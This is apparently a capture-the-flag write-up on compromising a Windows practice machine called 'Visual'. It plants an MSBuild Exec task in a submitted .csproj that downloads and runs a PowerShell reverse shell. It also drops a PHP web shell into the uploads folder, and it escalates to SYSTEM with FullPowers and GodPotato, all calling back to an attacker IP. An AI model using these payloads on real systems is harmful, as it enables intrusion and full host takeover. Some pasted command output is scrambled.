






# Visual


| Hostname   | Difficulty |
| ---        | ---        |
| visual     | Medium           |

Machine IP: 10.10.11.234 :

```bash
TARGET=10.10.11.234
```

## Initial Reconnaissance

### Ports and services

Scan for open ports :

```bash
nmap -p- $TARGET --open
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-16 17:38 UTC
Nmap scan report for 10.10.11.234
Host is up (0.019s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 105.84 seconds
```

### Web service - port 80

Let's start by identifying this application :

```
whatweb $TARGET
```

```
http://10.10.11.234 [200 OK] Apache[2.4.56], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17], IP[10.10.11.234], OpenSSL[1.1.1t], PHP[8.1.17], Script, Title[Visual - Revolutionizing Visual Studio Builds], X-Powered-By[PHP/8.1.17]
```

We can add a hostname definission :

```
echo "$TARGET     visual.htb" >> /etc/hosts
```

Let's browse this web site at http://visual.htb :





There is a form to submit a git repository. The aim seems to compile a C# project. This project should be a Visual studio Code project with a `.sln` project file.

## Initial access

### Exploitation

Reference : [https://learn.microsoft.com/en-us/dotnet/core/tools/global-tools-how-to-create](https://learn.microsoft.com/en-us/dotnet/core/tools/global-tools-how-to-create)

And how to onstall dotnet in Linux : [https://learn.microsoft.com/fr-fr/dotnet/core/install/linux-scripted-manual#scripted-install](https://learn.microsoft.com/fr-fr/dotnet/core/install/linux-scripted-manual#scripted-install)

Install the dotnet tools :

```bash
wget https://dot.net/v1/dotnet-install.sh -O dotnet-install.sh
chmod +x ./dotnet-install.sh
./dotnet-install.sh --version latest
```

Let's create the git server repository, and clone it to have a local workspace :

```shell
# create a repository on the server side
git --bare init repo-visual-server

# create a local clone to work on
git clone ./repo-visual-server ./repo-visual-local
```

Now let's create a project :

```shell
# work in the local repo
cd repo-visual-local
touch README.md

# create a new dotnet project:
/root/.dotnet/dotnet new console -n visual-hello
```

Output :

```text
The template "Console App" was created successfully.

Processing post-creation actions...
Running 'dotnet restore' on /workspace/repo-visual/visual-hello/visual-hello.csproj...
  Determining projects to restore...
  Restored /workspace/repo-visual/visual-hello/visual-hello.csproj (in 82 ms).
Restore succeeded.
```

Since we need a `.sln` project file, let's create one  :

```bash
# create sln solution file
/root/.dotnet/dotnet new sln -n visual-hello
# in that solution, add project
/root/.dotnet/dotnet sln add visual-hello
```

Let's see the project structure :

```bash
tree
```

```text
.
├── README.md
├── visual-hello
│   ├── obj
│   │   ├── project.assets.json
│   │   ├── project.nuget.cache
│   │   ├── visual-hello.csproj.nuget.dgspec.json
│   │   ├── visual-hello.csproj.nuget.g.props
│   │   └── visual-hello.csproj.nuget.g.targets
│   ├── Program.cs
│   └── visual-hello.csproj
└── visual-hello.sln
```

This looks like a real working project !

Now we can add these source and project files to git server :

```bash
git add .
git commit -m "initial commit"
git push
```

`git` can ask for some initial configuration, so let's do it :

```bash
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
```

Folder ` repo-visual-server` contains the repository, and we will serve it by HTTP with `updog`. In this case, we need to instruct `git` to update its references.

From `repo-visual-server` folder :

```bash
# update info for serving repo
git --bare update-server-info
# serve with http
updog
```

And provide the repository URL to the target application  :

http://10.10.14.23:9090/



We have a working configuration

Generate a compilation error by adding a mistake in Program.cs file in `repo-visual-local/visual-hello` :

```csharp
// See https://aka.ms/new-console-template for more information
Console.WriteLine("Hello, World!");

xxx
```

and update git server content :

```csharp
git add . ; git commit -m "text" ; git push
```

update the server in repo-visual-server :

```bash
git --bare update-server-info ; updog
```



we get some interesting information :

```bash
MSBuild executable path = "C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\msbuild.exe"
Command line arguments = ""C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\msbuild.exe" C:\Windows\Temp\a3456c8d89599e67eddcb59e159a43 /p:OutDir=C:\xampp\htdocs\uploads\a3456c8d89599e67eddcb59e159a43 /fileLogger /fileLoggerParameters:LogFile=C:\xampp\htdocs\uploads\a3456c8d89599e67eddcb59e159a43\build.output "
Current directory = "C:\Windows\System32\WindowsPowerShell\v1.0"
MSBuild version = "17.6.3+07e294721"
Included response file: C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\MSBuild.rsp

SolutionDir=C:\Windows\Temp\a3456c8d89599e67eddcb59e159a43\;
```

Searching internet for "csproj msbuild execute system command" leads to : [https://learn.microsoft.com/en-us/visualstudio/msbuild/exec-task?view=vs-2022](https://learn.microsoft.com/en-us/visualstudio/msbuild/exec-task?view=vs-2022)

We can add targets that could execute some system commands. This can be executed on some events : [https://learn.microsoft.com/en-us/visualstudio/msbuild/target-build-order?view=vs-2022](https://learn.microsoft.com/en-us/visualstudio/msbuild/target-build-order?view=vs-2022)

We can execute our command with :

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <RootNamespace>visual_hello</RootNamespace>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

	<!-- Begin addition -->
	<Target Name="HuuuuWhatsThatThing" BeforeTargets="Build">
	    <Exec Command="ping 10.10.14.23"/>
	</Target>
	<!-- ENd addition -->

</Project>
```

When executed, we would get a ping back to our host. Let's push it to git :

```shell
git add . ; git commit -m "text" ; git push
```

And update the server :

```shell
git --bare update-server-info ; updog
```

Watch the network activity to see when the ping will be executed :

```shell
tcpdump -i tun0 -X
```

On the web interface, provide our git repository URL : [http://10.10.14.23:9090/](http://10.10.14.23:9090/)

And we get some ping on our attacker host, meaning the msbuild is executing our command !

Now, let's make it download a reverseshell :

```xml
    <Exec Command="C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9001/revshell.ps1')" />
```

Now, we will setup a reverse shell :

- the application download the C# project from our local git repository
- the target application compiles the project 
- the command is executed from csproj file: download the payload
- the payload is executed and connect back to the attacker host for the reverse shell

The reverse shell from : [https://www.revshells.com/](https://www.revshells.com/)

- OS: Windows
- PowerShell #2

csproj :

```xml
<Exec Command="powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9090/shell.ps1')"/>
```

push it to git :

```shell
git add . ; git commit -m "text" ; git push
```

Update the git repo and restart the server :

```shell
cd repo-visual ; git --bare update-server-info ; updog -p 9090
```

The HTTP server will host :
* repo-visual : the git repository
* `shell.ps1` : the reverse shell

For the reverseshell `shell.ps1`, we will use powercat : [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)

```shell
wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
echo "powercat -c 10.10.14.23 -p 4444 -e powershell" >> shell.ps1
```

Start the reverse shell on port 4444 :

```shell
rlwrap -cAr nc -lvnp 4444
```

All is set, start the process from the web interface, and provide the URL of our repository :

[http://10.10.14.23:9090/repo-visual/](http://10.10.14.23:9090/repo-visual/)

We get a reverse shell :



## Post-Exploitation

### Host Reconnaissance

```xml
whoami /all

USER INFORMATION
----------------

User Name   SID
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes

==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

From this whoami command, we are under sa service account : `NT AUTHORITY\SERVICE`, `Mandatory Label\High Mandatory Level`

In order to enumerate, we will use winPEAS. Download and execute from the reverse shell:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('[http://10.10.14.23:9090/winPEAS.ps1](http://10.10.14.23:9090/winPEAS.ps1)')
```

We can note e few items :

```text
====================================||SYSTEM INFORMATION ||====================================
The following information is curated. To get a full list of system information, run the cmdlet get-computerinfo

Host Name:                 VISUAL
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-00521-62775-AA642
Original Install Date:     6/10/2023, 10:08:12 AM
System Boot Time:          10/20/2023, 3:16:49 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,955 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,737 MB
Virtual Memory: In Use:    1,062 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.11.234
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

```text
=========|| WINDOWS HOTFIXES
=| Check if windows is vulnerable with Watson https://github.com/rasta-mouse/Watson
Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)
```

```text
=========|| UAC Settings
EnableLUA is equal to 1. Part or all of the UAC components are on.
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access
```

```text
=========|| SERVICE path vulnerable check
Checking for vulnerable service .exe
WinDefend found with permissions issue:
Identity BUILTIN\Users BUILTIN\Users has 'Write' perms for C:\ProgramData
WdNisSvc found with permissions issue:
Identity BUILTIN\Users BUILTIN\Users has 'Write' perms for C:\ProgramData
ApacheHTTPServer found with permissions issue:
Identity Everyone has 'FullControl' perms for C:\Xampp\apache\bin\httpd.exe

=========|| Checking for Unquoted Service Paths
Fetching the list of services, this may take a while...
Unquoted Service Path found!
Name: CompileService
PathName: C:\Program Files\nssm-2.24\win64\nssm.exe
StartName: .\enox
StartMode: Auto
Running: Running
```

```text
=========|| LISTENING PORTS

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       2160
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       864
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       2160
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
          LISTENING       4     0.0.0.0:0
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       468
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1028
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1432
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       612
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       624
34:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.11.234:49734     10.10.14.23:4444       ESTABLISHED     4904
  TCP    10.10.11.234:49870     10.10.14.23:4444       ESTABLISHED     1980
  TCP    [::]:80                [::]:0                 LISTENING       2160
  TCP    [::]:135               [::]:0                 LISTENING       864
  TCP    [::]:443               [::]:0                 LISTENING       2160
     4   [::]:445               [::]:0                 LISTENING
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       468
  TCP    [::]:49665             [::]:0                 LISTENING       1028
  TCP    [::]:49666             [::]:0                 LISTENING       1432
  TCP    [::]:49667             [::]:0                 LISTENING       612
             LISTENING       624[::]:0
  UDP    0.0.0.0:123            *:*                                    2376
  UDP    0.0.0.0:5353           *:*                                    1600
  UDP    0.0.0.0:5355           *:*                                    1600
  UDP    10.10.11.234:137       *:*                                    4
  UDP    10.10.11.234:138       *:*                                    4
  UDP    127.0.0.1:62783        *:*                                    2864
123               *:*                                    2376
```

We can get information regarding the service running :

```powershell
Get-CIMInstance -Class Win32_Service -filter "StartName != 'LocalSystem' AND NOT StartName LIKE 'NT Authority%' " | select-object -property *
```

```text
Name                    : CompileService
Status                  : OK
ExitCode                : 0
DesktopInteract         : False
ErrorControl            : Normal
PathName                : C:\Program Files\nssm-2.24\win64\nssm.exe
ServiceType             : Own Process
StartMode               : Auto
Caption                 : CompileService
Description             :
InstallDate             :
CreationClassName       : Win32_Service
Started                 : True
SystemCreationClassName : Win32_ComputerSystem
SystemName              : VISUAL
AcceptPause             : True
AcceptStop              : True
DisplayName             : CompileService
ServiceSpecificExitCode : 0
StartName               : .\enox
State                   : Running
TagId                   : 0
CheckPoint              : 0
DelayedAutoStart        : False
ProcessId               : 2436
WaitHint                : 0
PSComputerName          :
CimClass                : root/cimv2:Win32_Service
CimInstanceProperties   : {Caption, Description, InstallDate, Name...}
CimSystemProperties     : Microsoft.Management.Infrastructure.CimSystemProperties
```

This service account is used for compilation.

And we can also check running processes :

```powershell
Get-Process
```

we can notice :

```text
    200      28    10292      21108              2160   0 httpd
    503      49    20660      26928              3592   0 httpd
    131       8     1820       6580       0.02   2436   0 nssm
```

There are some httpd process for the web interface running. There should be a service running for this :

```powershell
get-service | where-object { $_.Status -eq 'Running' }
```

```text
Running  ApacheHTTPServer   Apache HTTP Server
```

Let's check that service :

```powershell
Get-CIMInstance -Class Win32_Service -filter "Name = 'ApacheHTTPServer'" |  select-object -property *
```

```text
Name                    : ApacheHTTPServer
Status                  : OK
ExitCode                : 0
DesktopInteract         : False
ErrorControl            : Normal
PathName                : "C:\Xampp\apache\bin\httpd.exe" -k runservice
ServiceType             : Own Process
StartMode               : Auto
Caption                 : Apache HTTP Server
Description             : Apache/2.4.56 (Win64)
InstallDate             :
CreationClassName       : Win32_Service
Started                 : True
SystemCreationClassName : Win32_ComputerSystem
SystemName              : VISUAL
AcceptPause             : False
AcceptStop              : True
DisplayName             : Apache HTTP Server
ServiceSpecificExitCode : 0
StartName               : NT AUTHORITY\Local Service
State                   : Running
TagId                   : 0
CheckPoint              : 0
DelayedAutoStart        : False
ProcessId               : 2160
WaitHint                : 0
PSComputerName          :
CimClass                : root/cimv2:Win32_Service
CimInstanceProperties   : {Caption, Description, InstallDate, Name...}
CimSystemProperties     : Microsoft.Management.Infrastructure.CimSystemProperties
```

This is running under service account `NT AUTHORITY\Local Service`

### Lateral move to NETWORK SERVICE

Since the "NETWORK SERVICE" account is running httpd with php files, we can craft a PHP file `cmd.php` that will execute come system commands :

Just as previously, we will get a powercat shell on an other port :

```shell
wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
echo "powercat -c 10.10.14.23 -p 4446 -e powershell" >> shell2.ps1
```

Start the reverse shell on port 4446 :

```shell
rlwrap -cAr nc -lvnp 4446
```

Let's craft a PHP file that will download and execute this new reverse shell :

```php
<?php
if(isset($_REQUEST['cmd'])){ 
echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die;
} else {
echo "<pre>"; $cmd = ":\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9090/shell2.ps1')";
system( $cmd ); echo "</pre>"; die;
}
?>
```

From the actual reverse shell, download this new php file :

```powershell
Invoke-WebRequest -URI http://10.10.14.23:9090/cmd.php -OutFile c:\xampp\htdocs\uploads\cmd.php
```

and we can directly call it's URL to execute it : http://10.10.11.234/uploads/cmd.php. The shell opens under account "nt authority\local service" :

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\local service
PS C:\xampp\htdocs\uploads>
```

### Privilege Escalation

Since we are under a service account, we can try to move to system account using one potato tools.

```shell
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
```

Then in the reverse shell, download and execute that tool :

```powershell
Invoke-WebRequest -URI http://10.10.14.23:9090/GodPotato-NET4.exe -OutFile GodPotato.exe
./GodPotato -cmd "cmd /c whoami"
```

Result :

```text
[*] CombaseModule: 0x140720145956864
[*] DispatchTable: 0x140720148263024
[*] UseProtseqFunction: 0x140720147639200
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\a6e220f3-3bed-4c60-ab2d-d5234335de9b\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009002-08a0-ffff-0a86-c460991e37b8
[*] DCOM obj OXID: 0x5d5394dbb4279735
[*] DCOM obj OID: 0x720fbc6035165250
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Identification
[*] Start Search System Token
[*] Find System Token : False
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[!] Cannot create process Win32Error:1314
```

That is not working. ChatGPT quickly identify what’s going wrong :

> The problem seems to be that the ‘NT AUTHORITY\NETWORK SERVICE’ account does not have the ‘SeAssignPrimaryTokenPrivilege’ privilege required to create a process with the system token1. The GodPotato script tries to exploit a vulnerability in the DCOM service to elevate its privileges to NT AUTHORITY\SYSTEM, but it fails because of the impersonation level ‘Identification’ that does not allow to modify the token2. 

[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#from-local-service-or-network-service-to-full-privs](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#from-local-service-or-network-service-to-full-privs)

In order to restore the full privileges, hacktricks gives a reference : [https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)

```shell
wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exe
```

Review privileges:

```shell
whoami /all
```

```text
USER INFORMATION
----------------

User Name                  SID
========================== ========
nt authority\local service S-1-5-19

GROUP INFORMATION
-----------------

Group Name                             Type             SID
Attributes
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384

Everyone                               Well-known group S-1-1-0
Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545
Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6
Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1
Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11
Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15
Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0
Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Now, we need to execute FullPowers.exe from httpd account (nt authority\local service).

We will attempt to automate the whole process, from the `cmd.php` file.

First, the `cmd.php` will execute FullPowers (need to download it first), that will then download and execute a powershell file `privesc.ps1` :

```php
<?php
if(isset($_REQUEST['cmd'])){ 
	echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die;
} else {
	echo "<pre>"; $cmd = "C:\\xampp\\htdocs\\uploads\\FullPowers.exe -c \"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9090/privesc.ps1')\"";
	system( $cmd ); echo "</pre>"; die;
}
?>
```

`privesc.ps1`  will allow us to execute powershell commands, and avoid complex escaping from PHP file. This script will download GodPotato and execute it :

```powershell
# download godpotato
Invoke-WebRequest -URI http://10.10.14.23:9090/GodPotato-NET4.exe -OutFile c:\xampp\htdocs\uploads\GodPotato.exe
# call godpotato
c:\xampp\htdocs\uploads\GodPotato.exe -cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9090/shell2.ps1')"
```

In order to execute it all, we need to upload `FullPowers.exe` and the `cmd.php` :

```powershell
Invoke-WebRequest -URI http://10.10.14.23:9090/FullPowers.exe -OutFile c:\xampp\htdocs\uploads\FullPowers.exe
Invoke-WebRequest -URI http://10.10.14.23:9090/cmd.php -OutFile c:\xampp\htdocs\uploads\cmd.php
```

And open a listener :

```shell
rlwrap -cAr nc -lvnp 4446
```

then finally call:

[http://10.10.11.234/uploads/cmd.php](http://10.10.11.234/uploads/shell-up.php)

This will :
- execute `cmd.php`
- that will execute FullPowers.exe to recover full privileges
- when FullPowers.exe has completed, it will download and execute `privesc.ps1`
- `privesc.ps1` will download and execute GodPotato to get a SYSTEM account access
- when succeded, GodPotato download and execute `shell2.ps1` (as SYSTEM account)
- `shell2.ps1` will open a reverse shell on port 4446

System Shell :


